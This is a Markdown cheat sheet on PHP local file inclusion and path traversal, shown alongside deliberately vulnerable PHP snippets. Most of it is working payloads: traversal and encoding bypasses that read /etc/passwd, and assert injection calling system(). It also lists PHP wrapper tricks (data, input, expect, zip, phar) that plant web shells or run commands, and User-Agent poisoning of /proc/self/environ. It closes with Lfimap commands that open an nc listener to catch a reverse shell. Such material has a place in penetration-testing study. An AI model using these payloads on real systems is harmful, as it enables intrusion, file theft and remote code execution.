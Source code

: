 # Local File Inclusion and Path Traversal  

LFI - Executing local server files with PHP 'include', 'include_once', 'require' or 'require_once' functions.  

### Path traversal  
Path traversal means traversing the file structure with '../' or '..\\' sequences in order to read files 'below' the web server file path. Path traversals can be only used to read files on a web server, without execution.

```php
<?php include($_GET['file']); ?>
```

`http://linux_server/site.php?file=/../../../../../../../../../etc/passwd`  
`http://windows_server/site.php?file=\..\..\..\..\..\..\..\..\..\Windows\System32\drivers\etc\hosts`  

### Path normalization
Path normalization is done implicitly within PHP. Multiple subsequent slashes, as well as './' and '/.' are automatically stripped. This can be used to bypass bad sanitization.    
```php
<?php
# Disable inclusion of files ending with 'passwd'
if(substr($_GET['file'], -6, 6) != "passwd"){
   include($_GET['file']);
}
?>
```
`http://server/site.php?file=badfolder../../../../../../../../../../../etc/passwd/.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../././././etc/././passwd/./.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../../..////etc/////passwd/.`  

### Sanitization bypass
`?file=existingfolder/../../../../../../../../etc/passwd`  
`?file=doesnotexist../../../../../../../../../../.././etc/.//.//passwd//.`  
`?file=.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`  
`?file=....//....//....//....//etc/passwd`   
`?file=..///////..////..//////etc/passwd`  
`?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd`  
`?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`  
`?file=%252e/%252e/%252e/%252e/%252e/etc/passwd`  

### Extension blacklist bypass
Extension blacklisting can be bypassed with path normalization technique. By adding nonexisting directory as an argument prefix and normalization string in the end of parameter. Normalization string for linux is '/.' and './' on windows servers.  

```php
<?php
# PHP files are not allowed
if (substr($_GET['file'], -4, 4) != '.php')
   echo file_get_contents($_GET['file']);
else
   echo 'You are not allowed to see php source files!'."\n";
?>
```

`http://linux_server/site.php?file=nonexisting../../../../../../../../var/www/html/test.php/.`  
`http://windows_server/site.php?file=nonexisting..\..\..\..\..\..\..\..\wamp\web\test.php./`

### Assert code injection
If sanitization is done using assert function, injection arbitrary code could be possible.    
```php
<?php
    $file = $_GET['file'];
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
?>
```
`http://server/site.php?file=%27.system(%22ls%22).%27`  
`http://server/site.php?file=%27.passthru%28%22ls%22%29.%27`

### Nullbyte injection 
When '.php' is appended, it can be bypassed with nullbyte in php versions before 5.3.4, or if 'magic_quotes_gpc' is set to Off.  
 
```php
<?php include($_GET['file'] . ".php"); ?>
```
`http://server/site.php?file=../../../../../../../../etc/passwd%00`  
`http://server/site.php?file=../../../../../../../../etc/passwd%2500`  
`http://server/site.php?file=../../../../../../../../etc/passwd\0`   


### File wrapper
`http://server/site.php?parameter=file:///etc/passwd`  

### Filter wrapper
Filter wrapper can be used as a bypass method. Loading/Including php file will execute it, therefore source code won't be shown. With filter wrapper source code can be disclosed in a form of encoded string, which will need to be decoded.  
`http://server/site.php?file=php://filter/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/read=string.rot13/resource=/etc/passwd` 

### Data wrapper command execution
`http://server/site.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4K&c=cat%20/etc/passwd`  

### Input wrapper command execution
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php shell_exec($_GET['cmd']); ?>"`    
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php passthru($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php echo system($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input" -d "<?php echo system('whoami'); ?>"`  

### Expect wrapper command execution
Very rare and by default not enabled.  
`http://server/site.php?file=expect://cat%20/etc/passwd`  

### Zip wrapper code execution
Zip wrapper can be used in order to gain code execution, with uploaded archive that has zipped malicious .php file inside it.    
`http://server/site.php?file=zip://uploads/shell.zip%23shell.php`      

### Phar wrapper code execution
Create malicious phar file with reverse shell or custom malicious code inside it - represented as 'mal.jpg'.  
```php
 <?php
    $p = new PharData(dirname(__FILE__).'/pharfile.zip',0,'pharfile2',Phar::ZIP);
    $x = file_get_contents('./reverse_shell.php');
    $p->addFromString('mal.jpg', $x);
  ?>
```
Compile phar with `php --define phar.readonly=0 create_path.php`  
`http://server/site.php?file=phar://pharfile.zip/mal.jpg`  

### /proc/self/environ code execution
If environ file can be included User-Agent string can be used in order to achieve rce. Make sure User-Agent is inside /proc/self/environ for this to work.       

`curl http://server/index.php?file=/proc/self/environ&cmd=id -H "User-Agent: <?php echo assert($_GET['cmd']);?>"`


### Lfimap

[Lfimap](https://github.com/hansmach1ne/lfimap), local file inclusion discovery and exploitation tool.  
Automatically tests filter, data, input, expect and file wrappers, path truncation, remote file inclusion, xss and command injection.

Test GET parameters  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -a`  

Test POST parameters   
`sudo python3 lfimap.py "http://server/index.php" -D "page=PWN" -a`  


Exploit vulnerable target automatically    
`sudo rlwrap nc -nvlp 99`  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -a -x --lhost <ip> --lport 99`
